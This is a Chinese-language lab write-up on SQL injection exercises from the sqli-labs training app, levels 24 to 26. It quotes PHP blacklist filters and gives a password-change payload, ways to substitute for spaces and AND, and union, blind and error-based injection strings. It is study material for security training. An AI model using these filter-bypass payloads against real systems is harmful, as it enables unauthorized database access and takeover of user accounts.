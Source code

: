 但是这里明显的出现了sql注入，因为其没有对username进行检查,所以只要我们队用户名进行构造，那么当我们进行密码修改是，可以修改其他用户的密码：

payload :admin'#

## less 25

~~~php

function blacklist($id)
{
	$id= preg_replace('/or/i',"", $id);			//strip out OR (non case sensitive)
	$id= preg_replace('/AND/i',"", $id);		//Strip out AND (non case sensitive)
	
	return $id;
}

~~~

看到如下我们就知道，禁用了or 和 and ，不过其实这两句并不影响注入的后续操作。

# 重点，因为加了如果绕过方法

## less 26

```php
查看源码
function blacklist($id)
{
    $id= preg_replace('/or/i',"", $id);         //strip out OR (non case sensitive)
    $id= preg_replace('/and/i',"", $id);        //Strip out AND (non case sensitive)
    $id= preg_replace('/[\/\*]/',"", $id);      //strip out /*
    $id= preg_replace('/[--]/',"", $id);        //Strip out --
    $id= preg_replace('/[#]/',"", $id);         //Strip out #
    $id= preg_replace('/[\s]/',"", $id);        //Strip out spaces
    $id= preg_replace('/[\/\\\\]/',"", $id);        //Strip out slashes
    return $id;
}

空格和注释无法使用
绕过空格的几种
%09 tab键 %0a 新建一行 %0c 新的一页 %od return功能 %0b tab键垂直 %a0 空格

用%A0替代空格使用，用&&(%26%26)替代AND使用
构造payload： 0'%A0UNION%A0SELECT%A01,version(),database()%26%26%a0'1
这道题还可以使用盲注实现
0'||left(database(),1)='s'%26%26'1'='1
同样报错注入也可以实现
0'||updatexml(1,concat(0x7e,(Select%0a@@version),0x7e),1)||'1'='1

只要将空格和and绕过 那么实现就简单了
or和and 很好过滤，注释过滤了就使用永真闭合，
```
